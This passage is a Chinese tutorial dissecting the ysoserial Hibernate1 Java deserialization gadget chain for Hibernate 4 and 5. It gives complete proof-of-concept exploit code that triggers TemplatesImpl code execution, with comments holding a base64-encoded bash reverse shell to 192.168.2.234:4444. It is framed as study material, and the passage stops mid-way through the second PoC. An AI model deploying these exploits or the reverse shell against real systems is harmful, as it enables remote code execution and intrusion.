





Hibernate 是一个广泛使用的开源对象关系映射（ORM）框架，旨在简化 Java 应用程序与关系型数据库之间的数据交互。它通过将 Java 对象与数据库表关联起来，实现了对象的持久化，开发者无需编写繁琐的 SQL 语句即可操作数据库。

在Hibernate1这条攻击链中，使用Hibernate中的`BasicPropertyAccessor`类来触发`TemplatesImpl`类中的`getOutputProperties`方法，从而使得恶意代码被触发。

如果你对`TemplatesImpl`不太了解，可以看我的这篇文章，这里就不展开说`TemplatesImpl`了。

Hibernate1中对Hibernate4和Hibernate5做了不同的处理，本篇文章会展开来说。

## 代码分析(hibernate4)

### 环境准备

我本地以ysoserial中给的版本为例，使用的是hibernate:4.3.6.Final版本。

其中JDK使用的版本是JDK8u66，但这个漏洞理论上是不会受到JDK版本影响的，因为是纯`Hibernate`攻击链

```xml
<!-- https://mvnrepository.com/artifact/org.hibernate/hibernate-core -->
<dependency>
    <groupId>org.hibernate</groupId>
    <artifactId>hibernate-core</artifactId>
    <version>4.3.6.Final</version>
</dependency>
```

### BasicPropertyAccessor

在`BasicPropertyAccessor`这个类中有两个内部静态类，分别是`BasicSetter`和`BasicGetter`，其中`BasicGetter`两个类对整体的攻击构造十分重要，我们这里只需要`BasicGetter`就行。

#### BasicGetter

BasicGetter的构造方法允许传递三个参数，分别是:

* Class 对象
* Method 用于反射调用的方法
* propertyName 属性字段名

然后在调用`BasicGetter`中的get方法时传递具体的对象实例，会执行实例中的method方法。

```java
public static final class BasicGetter implements Getter {
    private Class clazz;
    private final transient Method method;
    private final String propertyName;
    // 假设这里初始化的值为
    // clazz = TemplatesImpl.class
    // method = "getOutputProperties"
    // propertyName = 暂时用不到,但后边会用到
    private BasicGetter(Class clazz, Method method, String propertyName) {
        this.clazz=clazz;
        this.method=method;
        this.propertyName=propertyName;
    }
    @Override
    public Object get(Object target) throws HibernateException {
        try {
            // getOutputProperties()方法会在这里被触发
            return method.invoke( target, (Object[]) null );
        }
        catch (InvocationTargetException ite) {
            ......
        }
    }
}
```

#### #getGetter

在`BasicPropertyAccessor`中的getGetter方法中是这么写的：

```java
public Getter getGetter(Class theClass, String propertyName) throws PropertyNotFoundException {
    // 调用createGetter方法，其实就是创建BasicGetter对象
    return createGetter(theClass, propertyName);
}
public static Getter createGetter(Class theClass, String propertyName) throws PropertyNotFoundException {
    // 创建BasicGetter对象
    BasicGetter result = getGetterOrNull(theClass, propertyName);
    if (result==null) {
        ......
    }
    return result;
}
private static BasicGetter getGetterOrNull(Class theClass, String propertyName) {
    if (theClass==Object.class || theClass==null) {
        return null;
    }
    // 这个getterMethod就是通过Class对象中的propertyName(属性字段名)来寻找类中对应的Method
    Method method = getterMethod(theClass, propertyName);
    if (method!=null) {
        method.setAccessible(true);
        // new 一个BasicGetter对象
        return new BasicGetter(theClass, method, propertyName);
    }
    else {
        // 如果有父类的情况下，递归调用，创建父类的BasicGetter，这里我们不用太关心
        BasicGetter getter = getGetterOrNull( theClass.getSuperclass(), propertyName );
        if (getter==null) {
            Class[] interfaces = theClass.getInterfaces();
            for ( int i=0; getter==null && i<interfaces.length; i++ ) {
                getter=getGetterOrNull( interfaces[i], propertyName );
            }
        }
        return getter;
    }
}
```

所以此时我们就能构造一个基本的payload了。

下边是对ysoserial中第一段代码的分析，我改造了ysoserial中的代码写法，使得你能够在main方法中直接运行它。

其中我还定义了一个`genTemplates`方法，用来生成TemplatesImpl模板。

ysoserial的做法有些特别，它直接使用反射获取到了BasicGetter的构造方法，然后为其中的字段赋了值。如果你对这种做法比较疑惑，可以查看我的这篇文章：[AmazingCode (1)绕过构造方法的限制](../AmazingCode1/main.md)

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.hibernate.property.Getter;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Demo {
    public static void main(String[] args) throws Exception {
        // 生成TemplatesImpl恶意代码类
        Object tpl = genTemplates();
        // 获取TemplatesImpl的Class对象
        Class<?> tplClass = tpl.getClass();
        String method = "getOutputProperties";
//        Class<?> getterIf = Class.forName("org.hibernate.property.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
        // 获取BasicGetter的构造方法
        Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
        bgCon.setAccessible(true);
		// 把getOutputProperties变成outputProperties
        String propName = Character.toLowerCase(method.charAt(3)) + method.substring(4);
		// 创建BasicGetter实例对象
        Getter g = (Getter)bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), propName);
        // 调用get方法触发Method.invoke，从而代码执行。
        g.get(tpl);
    }

    public static TemplatesImpl genTemplates() throws Exception{
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }
}
```

运行上边的代码，可以弹出计算器，说明第一步的构造是好的。

然后开始找一个能调用get方法的地方。

### AbstractComponentTuplizer

`AbstractComponentTuplizer`是一个抽象类，其中有这么一段代码：

```java
protected final Getter[] getters;
// 指定一个Object参数，同时需要指定数组下标
public Object getPropertyValue(Object component, int i) throws HibernateException {
    // 调用了Getter的get方法
    return getters[i].get( component );
}
```

因为`AbstractComponentTuplizer`是一个抽象类，是无法被直接调用的。然后ysoserial找到了一个具体的实现类`PojoComponentTuplizer`，然后我们需要找一个调用了`PojoComponentTuplizer.getPropertyValue`的地方。

通过IDEA可以找到有一个实现类，叫做`ComponentType`



然后我们来分析一下`ComponentType`这个类。

### ComponentType

在 Hibernate 中，`ComponentType` 是 Hibernate 的内部类，用于处理**嵌套组件**（Component，又称为嵌入式类，Embeddable）类型的映射。

关键代码在这里：

```java
public class ComponentType extends AbstractType implements CompositeType,......{
    public Object getPropertyValue(Object component, int i)
        throws HibernateException {
        if ( component instanceof Object[] ) {
            // A few calls to hashCode pass the property values already in an
            // Object[] (ex: QueryKey hash codes for cached queries).
            // It's easiest to just check for the condition here prior to
            // trying reflection.
            return (( Object[] ) component)[i];
        } else {
            // 在这里调用了AbstractComponentTuplizer的getPropertyValue方法
            return componentTuplizer.getPropertyValue( component, i );
        }
	}
}
```

然后我们看一下哪里会调用这个地方。

### TypedValue

`TypedValue` 是 Hibernate 中的一个 `final` 类，用于将一个对象的值与其对应的 Hibernate 类型（`Type` 接口实现类）进行映射。

#### 存储映射关系

- `TypedValue` 同时保存了一个 `Type` 和一个 `Object`，用于表示它们之间的关联。
- 例如，`ComponentType` 是 `Type` 接口的实现类，可以作为 `TypedValue` 的类型。

#### 初始化

- 初始化时，`TypedValue` 会赋值 `type` 和 `value`，并通过 `initTransients` 方法初始化 `hashcode` 属性。
- 初始化时创建了一个 `ValueHolder` 对象，并为其设置了一个重写了 `initialize()` 方法的 `DeferredInitializer` 对象。

#### 调用链

1. `TypedValue` 的 `hashCode()` 方法会调用 `hashcode.getValue()`，从而触发 `DeferredInitializer` 的 `initialize()` 方法。

2. 在 `initialize()` 方法中调用了 `type.getHashCode(value)`，如果 `type` 是 `ComponentType`，则会进一步调用其 `getHashCode()` 方法，并通过 `getPropertyValue()` 构造调用链。

**这里很多人会看别人的帖子从而误解调用链(反序列化时，不会调用对象的构造方法)**

看看代码：

```java
public final class TypedValue implements Serializable {
	private final Type type;
	private final Object value;
	// "transient" is important here -- NaturalIdCacheKey needs to be Serializable
	private transient ValueHolder<Integer> hashcode;
    public TypedValue(final Type type, final Object value) {
        this.type = type;
        this.value = value;
        initTransients();
	}
    // 如果触发了TypedValue的hashCode
    @Override
	public int hashCode() {
		return hashcode.getValue();
	}
    // 在反序列化之后，readObject和initTransients这两个方法被执行
    private void readObject(ObjectInputStream ois)
			throws ClassNotFoundException, IOException {
		ois.defaultReadObject();
		initTransients();
	}
	private void initTransients() {
        // 在这个方法中创建了ValueHolder对象
        // 同时，ValueHolder中创建了initialize方法的实现
        // initialize方法中写的这一条type.getHashCode会调用到ComponentType中的getHashCode方法
		this.hashcode = new ValueHolder<Integer>( new ValueHolder.DeferredInitializer<Integer>() {
			@Override
			public Integer initialize() {
				return value == null ? 0 : type.getHashCode( value );
			}
		} );
	}
}
```

在反序列化之后会执行`initTransients`方法，从而重写一个`initialize()`方法。此时我们的hashCode字段变成了ValueHolder对象。

如果有一个地方可以调用`initialize()`方法，那就能触发整个的调用链。

### ValueHolder

在ValueHolder中还真有触发`initialize()`方法的地方，是一个getValue()方法。代码如下：

```java
public class ValueHolder<T>{
	private final DeferredInitializer<T> valueInitializer;
	public T getValue() {
        if ( value == null ) {
            // initialize在这里被调用
            value = valueInitializer.initialize();
        }
        return value;
	}
}
```

通过IDEA查看一下还有哪些地方调用了这个方法。



我靠，这不就是刚才的TypedValue嘛。

再回到TypedValue中，代码如下，原来是hashCode方法啊。



到这就简单了，什么地方能触发hashCode呢，那可有无数的方法啊。不过最常用+好用的当然是hashMap啦。ysoserial也是经常用HashMap来触发hashCode方法，这个地方想要魔改是非常容易的，不过现在处于学习阶段就不改这种链子了。

### HashMap

HashMap既是一个链子中的一环，同时又可以做反序列化操作，看下代码。

```java
public class HashMap<K,V> extends AbstractMap<K,V>
    implements Map<K,V>, Cloneable, Serializable {
	private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        ......
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
                K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V) s.readObject();
            // 在这里会调用自身的hash方法
            putVal(hash(key), key, value, false, false);
        }
    }
    static final int hash(Object key) {
    	int h;
        // 在这里调用了key的hashCode方法，所以要保证key是TypedValue对象就行了
    	return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
}
```

分析完整条链子(hibernate4)，我们就能看懂ysoserial中的后半段代码了。

## POC1 - (by hibernate4)

hibernate4的完整代码如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.tuple.component.AbstractComponentTuplizer;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.AbstractType;
import org.hibernate.type.ComponentType;
import org.hibernate.type.Type;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Hibernate4 {

    private static final String serialFileName = "hibernate14.ser";
    public static void main(String[] args) throws Exception {
        Object tpl = genTemplates();
        Class<?> tplClass = tpl.getClass();
        String method = "getOutputProperties";

        Class<?> getterIf = Class.forName("org.hibernate.property.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
        Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
        bgCon.setAccessible(true);
		// 构造outputProperties字符串
        String propName = Character.toLowerCase(method.charAt(3)) + method.substring(4);

        Object g = bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), propName);
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);

        Constructor<Object> tupObjCons = Object.class.getDeclaredConstructor(new Class[0]);
        tupObjCons.setAccessible(true);
        Constructor<?> tupSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(PojoComponentTuplizer.class, tupObjCons);
        tupSC.setAccessible(true);
        // 创建PojoComponentTuplizer实例
        PojoComponentTuplizer tup = (PojoComponentTuplizer)tupSC.newInstance(new Object[0]);
		// 把getters字段设置为上边构建的BasicGetter数组
        Field gettersField = AbstractComponentTuplizer.class.getDeclaredField("getters");
        gettersField.setAccessible(true);
        gettersField.set(tup, getters);

        // ComponentType t = Reflections.createWithConstructor(ComponentType.class, AbstractType.class, new Class[0], new Object[0]);
        // 创建ComponentType实例
        Constructor<AbstractType> tObjCons = AbstractType.class.getDeclaredConstructor(new Class[0]);
        tObjCons.setAccessible(true);
        Constructor<?> tSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(ComponentType.class, tObjCons);
        tSC.setAccessible(true);
        ComponentType t = (ComponentType)tSC.newInstance(new Object[0]);

        // Reflections.setFieldValue(t, "componentTuplizer", tup);
        // 修改ComponentType实例中的componentTuplizer字段值
        Field componentTuplizerField = t.getClass().getDeclaredField("componentTuplizer");
        componentTuplizerField.setAccessible(true);
        // 把componentTuplizer字段改为AbstractComponentTuplizer实现类
        componentTuplizerField.set(t, tup);
        // Reflections.setFieldValue(t, "propertySpan", 1);
        Field propertySpanField = t.getClass().getDeclaredField("propertySpan");
        propertySpanField.setAccessible(true);
        propertySpanField.set(t, 1);

        // Reflections.setFieldValue(t, "propertyTypes", new Type[] { t });
        Field propertyTypesField = t.getClass().getDeclaredField("propertyTypes");
        propertyTypesField.setAccessible(true);
        propertyTypesField.set(t, new Type[] {t});

		// 创建TypedValue实例
        TypedValue v1 = new TypedValue(t, null);

        // Reflections.setFieldValue(v1, "value", tplClass);
        Field valueField = v1.getClass().getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(v1, tpl);

        // Reflections.setFieldValue(v1, "type", t);
        Field typeField = v1.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(v1, t);

        TypedValue v2 = new TypedValue(t, null);
        // Reflections.setFieldValue(v2, "value", tplClass);
        Field value2Field = v1.getClass().getDeclaredField("value");
        value2Field.setAccessible(true);
        value2Field.set(v1, tpl);

        // Reflections.setFieldValue(v2, "type", t);
        Field type2Field = v1.getClass().getDeclaredField("type");
        type2Field.setAccessible(true);
        type2Field.set(v1, t);


        // ----------------------------makeMap---------------------------------
        // 实例化HashMap
        HashMap s = new HashMap();

        // Reflections.setFieldValue(s, "size", 2);
        Field sizeField = s.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(s, 2);

        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
//        Reflections.setAccessible(nodeCons);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
//        Reflections.setFieldValue(s, "table", tbl);
        Field tableField = s.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(s, tbl);
        serialize(s);
        unSerialize();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static TemplatesImpl genTemplates() throws Exception{
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }
}
```

来运行一下，弹个计算器：



### 调用链

```java
HashMap.readObject()
	HashMap.hash()
		TypedValue.hashCode()
			ValueHolder<Integer>.getValue()
				DeferredInitializer<Integer>.initialize()
					ComponentType.getHashCode()
						ComponentType.getPropertyValue()
							PojoComponentTuplizer$AbstractComponentTuplizer.getPropertyValue()
								BasicPropertyAccessor$BasicGetter.get()
									Method(getOutputProperties).invoke(TemplatesImpl)
									// ......
```

## 代码分析(hibernate5)

### 环境准备

我本地以ysoserial中给的版本为例，使用的是hibernate:5.0.7.Final版本。

其中JDK使用的版本是JDK8u66，和上边一样。

```xml
<!-- https://mvnrepository.com/artifact/org.hibernate/hibernate-core -->
<dependency>
    <groupId>org.hibernate</groupId>
    <artifactId>hibernate-core</artifactId>
    <version>5.0.7.Final</version>
</dependency>
```

### Getter

在hibernate5.x中，`Getter`接口从`org.hibernate.property.Getter`挪到了`org.hibernate.property.access.spi.Getter`，同时删除了Getter的实现类`org.hibernate.property.BasicPropertyAccessor$BasicGetter`。

### GetterMethodImpl

`GetterMethodImpl`和`org.hibernate.property.BasicPropertyAccessor$BasicGetter`非常相似，也是提供了一个get方法，同时因为`GetterMethodImpl`本身是public的所以构造攻击链反而更加简单了。

GetterMethodImpl的构造方法允许传递三个参数，分别是:

* Class 对象
* propertyName 属性字段名
* getterMethod 方法名

但是因为这次可以直接调用get()方法，所以更加直接，我们看代码：

```java
public class GetterMethodImpl implements Getter {
	private static final CoreMessageLogger LOG = messageLogger( GetterMethodImpl.class );

	private final Class containerClass;
	private final String propertyName;
	private final Method getterMethod;

    // 可以发现这里的propertyName就完全没有用处了，所以传任意的值就行了。
	public GetterMethodImpl(Class containerClass, String propertyName, Method getterMethod) {
		this.containerClass = containerClass;
		this.propertyName = propertyName;
		this.getterMethod = getterMethod;
	}

    // 因为GetterMethodImpl是public类，所以外部类可以直接访问到该类的get()方法
	@Override
	public Object get(Object owner) {
		try {
            // 如果getterMethod为TemplatesImpl中的getOutputProperties方法
            // 那么调用到这里就能触发攻击链
			return getterMethod.invoke( owner );
		}
		catch (InvocationTargetException ite) {
			......	
        }
	}
}
```

OK，hibernate4和5的变化就这么点，让我们在原来的基础上改一下POC吧。

## POC2 - (by hibernate5)

```java
package hibernate1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.tuple.component.AbstractComponentTuplizer;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.AbstractType;
import org.hibernate.type.ComponentType;
import org.hibernate.type.Type;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Hibernate5 {

    private static final String serialFileName = "hibernate15.ser";
    public static void main(String[] args) throws Exception {
        Object tpl = genTemplates();
        Class<?> tplClass = tpl.getClass();
        String method = "getOutputProperties";
        // 差别就在这里
        // ---------------------------------start by hibernate4--------------------------
/*        Class<?> getterIf = Class.forName("org.hibernate.property.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
        Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
        bgCon.setAccessible(true);

        String propName = Character.toLowerCase(method.charAt(3)) + method.substring(4);

        Object g = bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), propName);
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);*/
        // ---------------------------------end by hibernate4--------------------------

        // 这是新版的(hibernate5)
        // ---------------------------------start by hibernate5------------------------
        Class<?> getterIf = Class.forName("org.hibernate.property.access.spi.Getter");
        Class<?> basicGetter = Class.forName("org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor<?> bgCon = basicGetter.getConstructor(Class.class, String.class, Method.class);
        Object g = bgCon.newInstance(tplClass, "test", tplClass.getDeclaredMethod(method));
        Object getters = Array.newInstance(getterIf, 1);
        Array.set(getters, 0, g);
        // ---------------------------------end by hibernate5---------------------------

        Constructor<Object> tupObjCons = Object.class.getDeclaredConstructor(new Class[0]);
        tupObjCons.setAccessible(true);
        Constructor<?> tupSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(PojoComponentTuplizer.class, tupObjCons);
        tupSC.setAccessible(true);
        PojoComponentTuplizer tup = (PojoComponentTuplizer)tupSC.newInstance(new Object[0]);

        Field gettersField = AbstractComponentTuplizer.class.getDeclaredField("getters");
        gettersField.setAccessible(true);
        gettersField.set(tup, getters);

        // ComponentType t = Reflections.createWithConstructor(ComponentType.class, AbstractType.class, new Class[0], new Object[0]);
        Constructor<AbstractType> tObjCons = AbstractType.class.getDeclaredConstructor(new Class[0]);
        tObjCons.setAccessible(true);
        Constructor<?> tSC = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(ComponentType.class, tObjCons);
        tSC.setAccessible(true);
